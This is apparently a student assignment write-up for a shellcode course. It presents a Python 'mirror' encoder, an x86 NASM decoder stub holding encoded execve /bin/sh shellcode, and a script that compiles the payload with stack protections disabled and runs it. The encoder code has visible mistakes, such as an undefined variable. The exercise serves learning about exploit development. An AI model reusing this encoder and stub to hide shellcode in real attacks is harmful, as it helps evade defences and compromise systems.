 # Assignment 4

## What to do:

-Create a custom encoding scheme like the “Insertion Encoder” we showed you. 

-PoC with using execve-stack as the shellcode to encode with your schema and execute.

## Solution: 
  1) Create the encoder.
  
  The encoder created (Mirror_encoder.py) takes the every 4 bytes of the shellcode and reverse its order, meaning, if the string taken is 0x45a3, the resultant will be 0xa345 (this is done until the end of the shellcode is reached). In case the shellcode has not even length, 0xf0 is added to the end of the shellcode to allow the "mirror" modification. 0xf0f0 is appended to the final shellcode as the marker which will be used to stop the nasm decoder.
    
  ###### Mirror-Encoder.py
  
    for x in bytearray(shellcode):  #Add to shell the shellcode as hexadecimal format
      shell += '\\x' + '%02x' % x

    shell2 = ""
    for i in range(0,4*len(bytearray(shellcode)),8): #Loop which takes 2 bytes and swap its order
      if (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==6:
        shell3 += "0"+ shell[i+5:i+8] + "," + "0"+shell[i+1:i+4] + ","
      elif (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==3: #If the length of the shellcode is not even, it is added 0xf0 to make it even. 
        shell3 += "0xf0" + "," + "0"+shell[i+1:i+4] + ","


    print shell2 + "0xf0,0xf0" #Marker to finish the decoder
    
  2) PoC with using execve-stack as the shellcode to encode.
  
   * The shellcode to be used is the one obtained from the execve-stack binary.
    
    nasm -f elf32 -o execve.o execve.nasm
    ld -o execve execve.o
    objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
   
   3) Create the nasm decoder.
   
   * The shellcode obtained in the earlier step, must be passed to Mirror_Encoder.py where is "mirrored".
   
   * Now, we have the shellcode to inject into the Mirror_decoder.nasm
   
  ###### Mirror-decoder-compile.sh
  
    global _start			

    section .text
    _start:

      jmp short call_shellcode  ;jump-call-pop technique

    decoder:

      pop esi			; pop shellcode into esi
      lea edi, [esi]		; Copy the position in memory of the shellcode to edi, where we will save the decoded one
      xor eax, eax		; Clearing out eax and ecx
      xor ecx, ecx

    decode:
      mov ax, [esi]                ; Moves the first to bytes of esi to ax
      mov cx, ax		     ;Moves ax to cx to check if it is the end of the shellcode
      xor cx, 0xf0f0               ; Compare cx with 0xf0f0 marker
      jz short EncodedShellcode    ; if xor os 0, jump to shellcode
      mov byte [edi], ah           ;Move the second byte to the first byte of edi
      mov byte [edi + 1], al;      ; Move the first byte to the second byte of edi --> 0x31c0 moves to 0xc031 in edi 	
      inc edi			     ; move to next byte in edi
      inc edi			     ; move to next byte in edi	
      inc esi			     ; move to next byte in esi
      inc esi                      ; move to next byte in esi 
      jmp short decode	     ; jump back to start of decode

    ;Modifications can be vieweb by using x/20xc *call during execution (gdb)	

    call_shellcode:

    call decoder
    EncodedShellcode: db 0xc0,0x31,0x68,0x50,0x2f,0x2f,0x68,0x73,0x2f,0x68,0x69,0x62,0x89,0x6e,0x50,0xe3,0xe2,0x89,0x89,0x53,0xb0,0xe1,0xcd,0x0b,0xf0,0x80,0xf0,0xf0,0xee,0xee

4) Compiling the final shellcode
    
* Once the nasm code is finished, we can use mirror-decoder-compile.sh to assembly and link it, copy the shellcode to the skeleton_shellcode.c, compile the final shellcode and execute it.
   
    ###### Mirror-decoder-compile.sh
    
          echo '[+] Assembling with Nasm ... '
          nasm -f elf32 -o mirror-decode.o mirror-decode.nasm

          echo '[+] Linking ...'
          ld -o mirror-decode mirror-decode.o

          echo '[+] Done!'

          sleep 2

          echo "[+] Dumping disassembling code.."

          objdump=$(objdump -d ./mirror-decode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

          echo $objdump 
          sleep 3

          echo "[+] Compiling shellcode.c and executing it.."

          cp skeleton_shellcode.c shellcode.c  #Copy the skeleton of the shellcode (it contais a string named shellcode which it will be replaced with objdump)

          replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump

          sleep 2

          gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode


          ./shellcode    
